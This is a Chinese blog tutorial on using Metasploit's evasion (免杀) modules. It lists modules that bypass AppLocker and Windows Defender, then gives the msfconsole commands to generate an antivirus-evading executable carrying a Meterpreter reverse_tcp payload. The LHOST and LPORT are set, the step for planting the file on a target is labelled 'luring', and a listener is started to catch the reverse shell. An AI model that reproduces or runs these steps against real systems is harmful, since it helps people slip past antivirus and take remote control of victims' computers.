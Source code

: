 # 原创
：  【MSFconsole进阶】evasion（免杀模块）：免杀模块使用方法，相关设置

# 【MSFconsole进阶】evasion（免杀模块）：免杀模块使用方法，相关设置

**目录**

[一、简介：](#%E4%B8%80%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A)

[二、使用方法：](#%E4%BA%8C%E3%80%81%E4%BD%BF%E7%94%A8%E6%96%B9%E6%B3%95%EF%BC%9A)

[2.1、第一步：选择一个免杀模块](#2.1%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E9%80%89%E6%8B%A9%E4%B8%80%E4%B8%AA%E5%85%8D%E6%9D%80%E6%A8%A1%E5%9D%97)

[2.1.1、#查看免杀模块](#2.1.1%E3%80%81%23%E6%9F%A5%E7%9C%8B%E5%85%8D%E6%9D%80%E6%A8%A1%E5%9D%97)

[2.1.2、#选择免杀模块](#2.1.2%E3%80%81%23%E9%80%89%E6%8B%A9%E5%85%8D%E6%9D%80%E6%A8%A1%E5%9D%97)

[2.2、第二步：设置产生的相关参数](#2.2%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E8%AE%BE%E7%BD%AE%E4%BA%A7%E7%94%9F%E7%9A%84%E7%9B%B8%E5%85%B3%E5%8F%82%E6%95%B0)

[2.2.1、#设置输出文件名](#2.2.1%E3%80%81%23%E8%AE%BE%E7%BD%AE%E8%BE%93%E5%87%BA%E6%96%87%E4%BB%B6%E5%90%8D)

[2.2.2、#设置使用的payload](#2.2.2%E3%80%81%23%E8%AE%BE%E7%BD%AE%E4%BD%BF%E7%94%A8%E7%9A%84payload)

[2.2.3、#设置监听端口/ip](#2.2.3%E3%80%81%23%E8%AE%BE%E7%BD%AE%E7%9B%91%E5%90%AC%E7%AB%AF%E5%8F%A3%2Fip)

[2.3、第三步：生成](#2.3%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E7%94%9F%E6%88%90)

[2.3.1、#生成木马文件](#2.3.1%E3%80%81%23%E7%94%9F%E6%88%90%E6%9C%A8%E9%A9%AC%E6%96%87%E4%BB%B6)

[2.4、第四步：植入目标电脑](#2.4%E3%80%81%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E6%A4%8D%E5%85%A5%E7%9B%AE%E6%A0%87%E7%94%B5%E8%84%91)

[2.5、第五步：监听](#2.5%E3%80%81%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E7%9B%91%E5%90%AC)

---


## 一、简介：

> 
Evasion模块，官方宣称这个模块可以创建反杀毒软件的木马
能不能被查出来，还是要看几率的事情


---


---


## 二、使用方法：

> 
<h3>2.1、第一步：选择一个免杀模块</h3>
<h4>2.1.1、#查看免杀模块</h4>
show evasion

0  evasion/windows/applocker_evasion_install_util
Applocker逃避 -  .NET框架安装实用程序
<hr/>
1  evasion/windows/applocker_evasion_msbuild
Applocker逃避-MSBUILD
<hr/>
2  evasion/windows/applocker_evasion_presentationhost
Applocker逃避 - Windows演示基础Host
<hr/>
3  evasion/windows/applocker_evasion_regasm_regsvcs
Applocker逃避-Microsoft .NET组装注册实用程序
<hr/>
4  evasion/windows/applocker_evasion_workflow_compiler
Applocker逃避 -  Microsoft Workflow编译器
<hr/>
5  evasion/windows/process_herpaderping
过程Herpaderping逃避技术
<hr/>
6  evasion/windows/syscall_inject
直接Windows Syscall逃避技术
<hr/>
7  evasion/windows/windows_defender_exe
Microsoft Windows Defender Evasive可执行
<hr/>
8  evasion/windows/windows_defender_js_hta
Microsoft Windows Defender Evasive JS.NET和HTA
<hr/>

<h4>2.1.2、#选择免杀模块</h4>
use windows/windows_defender_exe
#查看选项
show options




---


---


---


---


#### 2.1.2、#选择免杀模块

> 
<h3>2.2、第二步：设置产生的相关参数</h3>
<h4>2.2.1、#设置输出文件名</h4>
set filename payload.exe
<hr/>
<h4>2.2.2、#设置使用的payload</h4>
set payload windows/meterpreter/reverse_tcp
<hr/>
<h4>2.2.3、#设置监听端口/ip</h4>
set LHOST 192.168.190.131
set LPORT 4444
（注：这个其实上面默认的是本机，这里可以更改为其他的）




#### 2.2.2、#设置使用的payload

---


> 
<h3>2.3、第三步：生成</h3>
<h4>2.3.1、#生成木马文件</h4>
exploit





> 
<h3>2.4、第四步：植入目标电脑</h3>
诱导……


> 
<h3>2.5、第五步：监听</h3>
handler -H 192.168.190.131 -P 4444 -p windows/meterpreter/reverse_tcp

